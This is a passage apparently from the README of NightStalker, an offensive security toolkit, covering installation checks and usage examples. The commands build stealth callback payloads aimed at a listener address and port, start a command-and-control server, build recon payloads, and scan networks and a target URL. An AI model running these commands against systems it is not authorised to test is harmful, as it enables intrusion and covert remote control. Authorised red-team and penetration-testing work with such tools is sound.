 You can also use environment variables for flexible configuration:

```bash
# Set NightStalker home directory
export NIGHTSTALKER_HOME="/path/to/your/nightstalker"

# Add to your shell profile for persistence
echo 'export NIGHTSTALKER_HOME="/path/to/your/nightstalker"' >> ~/.bashrc
source ~/.bashrc
```

## 🧪 Testing the Installation

After installation, test the launcher:

```bash
# Test basic functionality
nightstalker --version

# Test interactive menu
nightstalker

# Test stealth payload commands
nightstalker stealth build --help
nightstalker stealth server --help
```

## 📖 Usage Examples

Once installed, you can use the launcher from anywhere:

```bash
# Interactive menu
nightstalker

# Build stealth payload
nightstalker stealth build --lhost 192.168.1.100 --lport 4444

# Start C2 server
nightstalker stealth server --host 0.0.0.0 --port 4444

# Run demo
nightstalker stealth demo

# Build regular payloads
nightstalker payload build --type recon --format python

# Run penetration testing
nightstalker pentest --target 192.168.1.0/24

# Web red teaming
nightstalker webred scan --url https://target.com
```

